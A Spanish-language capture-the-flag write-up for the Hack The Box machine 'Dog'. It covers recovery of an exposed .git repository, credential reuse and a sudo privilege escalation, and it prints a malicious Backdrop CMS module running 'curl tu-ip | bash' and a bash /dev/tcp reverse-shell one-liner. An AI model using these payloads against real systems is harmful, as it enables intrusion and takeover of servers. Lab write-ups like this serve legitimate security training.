 ```yaml
---
title: Dog
---
```


![htb](../../../../../assets/dog.png)

La máquina explota varias debilidades comunes en entornos web y de servidores: exposición de repositorios `.git`, divulgación de credenciales sensibles, panel de administración accesible, subida de archivos maliciosos en un CMS vulnerable, reutilización de contraseñas y mala configuración de permisos Sudo que permite la ejecución de binarios privilegiados.

## Enumeración

Inicio mi etapa de enumeración escaneando los puertos con nmap; se detectan abiertos el 80 (HTTP) y 22 (SSH). Esto indica que tenemos una página web corriendo y un puerto SSH que, si conseguimos credenciales, podremos utilizar para acceder. Como procedimiento habitual, ejecutamos los scripts básicos de nmap.

#### Comando para enumerar posibles scripts en nmap

```bash
nmap -sC -p22,80 IP
```

![htb](../../../../../assets/dog/nmap.png)

## Reconocimiento

Hemos detectado que el archivo `.git` está expuesto debido a una mala configuración. Haciendo uso de la herramienta [GitHack](https://github.com/lijiejie/GitHack), podemos automatizar la restauración de dicho repositorio.

```bash
python3 GitHack.py IP/.git
```

![contentGitHack](../../../../../assets/dog/2025-08-14_20-40.png)

Dentro de todos estos archivos, el que más me llamó la atención es `settings.php`, así que procedo a revisarlo y me encuentro con credenciales expuestas de una base de datos:

![credenciales](../../../../../assets/dog/credenciales.png)

Dentro del servicio web intento iniciar sesión como root, pero es imposible. Antes de hacer un ataque de fuerza bruta para probar nombres comunes, realizo una enumeración de posibles correos electrónicos filtrados:

```bash
grep -r '\.htb'
```

Dentro del directorio `files` encontramos un archivo que contenía el correo `tiffany@dog.htb`. Utilizando la credencial obtenida previamente, logramos iniciar sesión y acceder al dashboard de administración.

## Explotación

Tras pasar un tiempo explorando el servicio web, descubrí un panel que listaba varios usuarios. Intenté conectarme vía SSH con estos, pero fue en vano. Sin embargo, vi que podía instalar módulos, así que empecé a investigar cómo funcionaban los módulos en Backdrop CMS.  

Me descargué un ZIP que contiene la página oficial de [ejemplos](https://backdropcms.org/project/examples) y, tras analizarlos, descubrí que el directorio `page_example` contenía un archivo PHP importante: `page_example.module`. Eliminé su contenido y lo reemplacé por:

```php
<?php
    system('curl tu-ip | bash');
?>
```

Lo comprimí, ya que solo se admitían archivos `.tar.gz`, y al intentar instalarlo apareció un error:

![error](../../../../../assets/dog/error.png)

Esto se soluciona brevemente volviendo al directorio donde teníamos los ejemplos y añadiendo `type = module` al archivo `page_example.info`. Con esto, la instalación debería funcionar.

Antes de terminar de instalarlo, montamos un servidor en Python que tenga un `index.html` con el oneliner de bash:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/tu-ip/port 0>&1"
```

Nos ponemos en escucha con NetCat por el puerto especificado y completamos la instalación de nuestro módulo. Esto debería otorgar una reverse shell con el usuario `www-data`. Luego, enumeré los usuarios presentes en la máquina:

![reverse](../../../../../assets/dog/usuarios.png)

Reciclando las credenciales obtenidas al inicio, conseguí iniciar sesión como el usuario `jhoncusack`, quien posee la flag. Ya estando como `jhoncusack`, realicé un reconocimiento de rutina y observé que todos los usuarios tienen permisos para ejecutar el binario `/usr/local/bin/bee`, lo cual es crítico:

![usr](../../../../../assets/dog/enumeration.png)

Para escalar privilegios, aproveché dicho binario, ya que era evidente que permitía la ejecución arbitraria de comandos mediante `eval`:

![explo](../../../../../assets/dog/exploit.png)

Para que esto funcione, solo es necesario especificar una ruta en la cual `root` esté siendo utilizada:

![root](../../../../../assets/dog/root.png)

# FIN
